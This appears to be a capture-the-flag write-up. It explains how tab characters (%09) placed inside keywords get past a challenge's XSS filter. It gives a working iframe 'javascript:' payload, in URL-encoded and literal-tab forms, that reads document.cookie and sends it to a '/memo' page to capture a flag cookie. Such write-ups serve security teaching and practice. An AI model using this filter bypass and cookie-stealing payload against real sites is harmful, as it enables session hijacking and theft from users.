



# solution

The most thing we need to do is find a way to bypass this function **xss_filter**. After searching and find some information and bruce force a bit. I find that we can use **tab button** or **%09** (url encode of tab button).

```
<iframe%20src="javascrip%09t:docum%09ent.locatio%09n.href=%27/memo?memo=%27%2bdocumen%09t.cookie"></iframe>
```

I try this payload on **/vuln** and see this (If it empty, dont worry cause we need to send this payload in other url to get flag cookie)
<br>
It works, so the remain job we need to do is go to **flag** and put this payload

```
<iframe src="javascrip	t:docum	ent.locatio	n.href=%27/memo?memo=%27%2bdocumen	t.cookie"></iframe>
```

<br>
<br>

Note: You see it quite different cause in url we need %09 to indicate tab button, but in post we need to real tab in our payload instead using %09.
